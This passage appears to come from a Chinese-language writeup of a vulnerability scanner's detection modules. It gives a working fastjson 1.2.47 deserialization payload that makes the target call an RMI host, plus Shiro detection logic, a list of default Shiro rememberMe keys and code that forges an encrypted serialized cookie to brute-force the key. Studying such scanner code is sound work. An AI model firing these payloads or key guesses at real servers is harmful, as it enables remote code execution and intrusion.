 1.2.47的payload  
```python
# for fastjson 1.2.47
fastjson_payload = {
    random_str(4): {
        "@type": "java.lang.Class",
        "val": "com.sun.rowset.JdbcRowSetImpl"
    },
    random_str(4): {
        "@type": "com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName": "rmi://{}".format(domain),
        "autoCommit": True
    }
}
```

#### shiro Shiro框架检测以及Key爆破


先判断是否是 Shiro 直接从响应中判断  
```python
if "deleteMe" in respHeader.get('Set-Cookie', ''):
    isShiro = True
```
是的话先产生一条漏洞  

如果响应中没有 在cookie里加下 `_cookie["rememberMe"] = "2"`  

然后发请求 如果在响应头中看的 `deleteMe` 则说明是Shiro  
```python
if req and "deleteMe" in req.headers.get('Set-Cookie', ''):
    isShiro = True
```

这里如果是Shiro还会爆破下key  
默认的key
```python
def _check_key(self):
keys = [
    'kPH+bIxk5D2deZiIxcaaaA==', '4AvVhmFLUs0KTA3Kprsdag==', 'WkhBTkdYSUFPSEVJX0NBVA==',
    'RVZBTk5JR0hUTFlfV0FPVQ==', 'U3ByaW5nQmxhZGUAAAAAAA==',
    'cGljYXMAAAAAAAAAAAAAAA==', 'd2ViUmVtZW1iZXJNZUtleQ==', 'fsHspZw/92PrS3XrPW+vxw==',
    'sHdIjUN6tzhl8xZMG3ULCQ==', 'WuB+y2gcHRnY2Lg9+Aqmqg==',
    'ertVhmFLUs0KTA3Kprsdag==', '2itfW92XazYRi5ltW0M2yA==', '6ZmI6I2j3Y+R1aSn5BOlAA==',
    'f/SY5TIve5WWzT4aQlABJA==', 'Jt3C93kMR9D5e8QzwfsiMw==',
    'aU1pcmFjbGVpTWlyYWNsZQ==',
]
```

生成payload  

```python
def generator_payload(self, key):
    payload = b'\xac\xed\x00\x05sr\x002org.apache.shiro.subject.SimplePrincipalCollection\xa8\x7fX%\xc6\xa3\x08J\x03\x00\x01L\x00\x0frealmPrincipalst\x00\x0fLjava/util/Map;xppw\x01\x00x'
    iv = b'w\xcf\xd7\x98\xa8\xe9LD\x97LN\xd0\xa6\n\xb8\x1a'
    backend = default_backend()
    cipher = Cipher(algorithms.AES(base64.b64decode(key)), modes.CBC(iv), backend=backend)
    encryptor = cipher.encryptor()
    BS = algorithms.AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    file_body = pad(payload)
    ct = encryptor.update(file_body)
    base64_ciphertext = base64.b64encode(iv + ct)
    return base64_ciphertext.decode()

```
